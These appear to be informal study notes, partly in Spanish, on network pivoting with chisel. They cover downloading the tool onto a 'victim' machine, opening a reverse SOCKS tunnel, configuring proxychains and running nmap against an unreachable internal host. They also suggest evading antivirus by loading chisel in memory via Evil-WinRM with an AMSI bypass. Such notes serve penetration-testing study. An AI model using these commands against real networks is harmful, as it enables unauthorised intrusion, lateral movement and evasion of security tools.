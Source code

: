 He said now, if we have no acces to this machine because it is on another network, we would do it with chisel
"creamos tunel ,conexion de tipo socks que con proxichains a posteriori intentamos aplicar el escaneo desde nuestra maquina a la maquina que de primeras no alcanzamos pero vamos a intentar que alcance"

It works like this, from your side you run int as a "server" and from the target machine is connecting as "client"

First you must do a server with python and download it from the target machine with 

on your folder and from your machine
```
python3 -m http.server 80
```

on the target machine
```
wget 192.168.100.4/chisel
```

Now on your machine you must run the chisel as a server 

```
./chisel server --reverse -p 1234 
```
And on the victims machine


R transforms the port, to my 80 port, so i must go step by step port to port doing this
```
./chisel client 172.16.0.140:1234 R:80:10.10.0.128
```
He prefers do it on this way, I think you take all the ports
```
./chisel client 172.16.0.140:1234 R:socks
```
NOTA: si lo detecta el antivurus a chisel, en la maquina victima, puedes usar Evilwinrm para cargarlo directamente en la memoria de la computadora (usar amsybypass).

So now youre using R:socks now you must go to
```
/etc/proxychains.conf
```
we must have a "stricy chain"

and on the proxys you must put


```
socks5 127.0.0.1 1080
```
why this way ? it is where the "tunnel" is created and now you want to use this  "tunnel" to consult all the things via this tunnel

so now, if i want to scan this machine (that hipotetically is out of my range, now with proxychains is on my way) You will have a lot of information un usefull if you dont want to see the "stderr (standar error flux)" you can redirect it with 2/dev/null

```
proxychains nmap --top-ports 500 --open -T5 -V -sT -Pn -n 10.10.0.128 2>/dev/null
```
So now, if you want to see the 10.10.0.128 you can use "foxyproxy" and "add" a new proxy
